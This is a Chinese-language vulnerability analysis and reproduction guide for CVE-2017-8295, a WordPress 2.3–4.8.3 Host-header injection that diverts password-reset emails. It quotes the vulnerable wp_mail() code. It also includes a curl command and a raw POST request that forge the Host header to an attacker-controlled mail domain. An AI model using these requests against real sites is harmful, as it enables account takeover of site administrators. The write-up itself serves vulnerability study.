 # （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST 头注入漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/18.html](http://book.iwonder.run/0day/Wordpress/18.html)

## 一、漏洞简介

在 WordPress 2.3-4.8.3 版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用 Host 地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

## 二、漏洞影响

WordPress 2.3-4.8.3

## 三、复现过程

### 漏洞分析

在 WordPress 中， wp_mail() 函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From） ，则会自动使用 'wordpress@' + $_SERVER['SERVER_NAME'] 作为邮件的 发件地址。主流的 Web 服务器中的 SERVER_NAME 变量来自于客户端请求中 HTTP_HOST 头，这就意味着该发件地址是用户可控的。

wp_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

```
function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
...//ignore
    if ( !isset( $from_email ) ) {
        // Get the site domain and get rid of www.
        $sitename = strtolower( $_SERVER['SERVER_NAME'] );
        if ( substr( $sitename, 0, 4 ) == 'www.' ) {
            $sitename = substr( $sitename, 4 );
        }
        $from_email = 'wordpress@' . $sitename;
    }
    /**
     * Filters the email address to send from.
     *
     * @since 2.2.0
     *
     * @param string $from_email Email address to send from.
     */
    $from_email = apply_filters( 'wp_mail_from', $from_email );
    /**
     * Filters the name to associate with the "from" email address.
     *
     * @since 2.3.0
     *
     * @param string $from_name Name associated with the "from" email address.
     */
    $from_name = apply_filters( 'wp_mail_from_name', $from_name );
    $phpmailer->setFrom( $from_email, $from_name );
...//ignore
} 
```

在某些情况下邮件服务器会直接将邮件的 发件地址 作为 退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到 退件地址。因为 发件地址 可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址 demo@0-sec.org，用来模拟通过 DNS 攻击/DOS 攻击使管理员的找回密码邮件发送失败

![image](img/238d921ee082d230a1d0104796ccc72a.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

```
curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password' 
```

![image](img/659b7fb6f17bf7c72715e955546ba070.png)

post 数据包：

```
POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
Host: injected-attackers-mxserver.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

user_login=admin&redirect_to=&wp-submit=Get+New+Password 
```

如果此时邮件发送失败，邮件会被自动退回到 wordpress@0-sec.org。即原本要发送管理员邮箱 demo@0-sec.org 的邮件会被发送到 wordpress@0-sc.org

#### 使用 wordpress@0-sec.org 接收找回密码邮件

如果利用成功 wordpress@v0-sec.org 会接收到密码重置邮件。

![image](img/38f463cbc70622f105d8d08a1885af78.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![image](img/ec73b40a1639c1d9d4df09cba0f8d034.png)

#### 使用找回密码链接修改密码

![image](img/da741678fa78516f42e114ce1fd2ff41.png)

